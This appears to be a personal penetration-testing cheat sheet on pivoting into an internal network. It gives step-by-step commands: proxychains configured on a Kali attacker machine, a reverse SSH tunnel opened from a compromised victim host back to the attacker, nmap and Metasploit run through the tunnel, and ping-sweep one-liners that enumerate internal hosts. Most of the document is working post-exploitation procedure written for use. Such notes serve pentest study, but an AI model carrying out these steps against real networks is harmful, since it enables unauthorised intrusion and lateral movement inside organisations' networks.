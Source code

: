 # Pivoting to an Internal Network with proxychains and SSH

Think of pivoting like: creating a tunnel for kali to wrap traffic within 
- This forces traffic from the kali machine thru the tunnel FIRST, thus allowing scanning the internal network from the victim machine
- traffic looks like it is coming from internal
- possible on any client with SSH client *OVER 7.6*

*On attacker*

`sudo vim /etc/proxychains4.conf`
- Comment out `strict_chain`
- Uncomment `dynamic_chain`
- Comment out `proxy_dns`
- Uncomment `quiet_mode`
- Change the default at the bottom to: `socks5 127.0.0.1 <portUchoose>`
    - be sure this port is unique

Make sure ssh is listening -> `sudo systemctl start/status ssh.service`

*On Victim*

`sudo ssh -N -f -R 127.0.0.1:<ipSetOnKali> user@attacker -p <differentPort>`
- you should see the regular prompts from SSH, after accepting the connection and typing the password...
- Check on attacker box `netstat -natp` you should see an open listener on 127.0.0.1<port>
- This port that is picked NEEDS to be forwarded on the router, preferably forwarding to port 22 on the host, that way we dont need to make ssh config changes

Now you can run nmap scans and even wrap tools like msfconsole in the proxy! No need to fumble around seeing if modules are even compatable with proxies.

Keep in mind, nmap *MUST* be run with: `-sT -Pn`. Without these the scan will fail as we only have access to L7 thru proxychains.

You can run a ping sweep from the victim box by:

Windows `for /l %i in (1,1,254) do @ping -n 1 -w 100 192.168.0.%i | find "Reply"` 

Linux `for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done `

Copy the Data to kali and now you have internal targets!


